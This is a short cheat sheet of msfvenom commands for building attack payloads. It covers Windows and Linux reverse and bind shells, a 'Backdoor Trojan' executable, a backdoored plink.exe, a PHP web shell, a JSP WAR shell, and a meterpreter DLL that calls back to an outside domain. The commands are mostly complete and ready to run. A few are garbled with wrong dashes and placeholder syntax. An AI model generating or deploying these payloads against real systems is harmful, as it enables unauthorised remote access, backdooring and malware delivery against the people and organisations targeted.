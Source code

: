 ## Construct Attack Sequence

msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai generate shellcode

msfvenom -p linux/x86/shell_bind_tcp LPORT=443 -f c -a x86 --platform linux -b "\x00\x0a\x0d\x20" -e x86/shikata_ga_nai generate shellcode

Backdoor Trojan
msfvenom –p windows/shell_reverse_tcp LHOST=$ip2 –f exe > malware.exe && chmod +x malware.exe

Staged Linux Binary
msfvenom -p linux/x86/shell/reverse_tcp LHOST=$ip LPORT=443 -f elf --platform linux -a x86 > /var/www/html/reverse_shell_tcp

PHP Web Shell
msfvenom -p php/meterpreter/reverse_tcp LHOST=$ip LPORT=443 -e php/base64 -f raw > shell.php && add '<?php *** ?>'

Backdoor Executable
msfvenom -a x86 --platform windows -x /var/www/html/plink.exe -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f exe -o bd.exe

WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$ip LPORT=443 -f war > r-jsp-shell-443.war

msfvenom -p windows/x64/meterpreter_reverse_https LHOST=unioncentralorchids.com LPORT=443 -f dll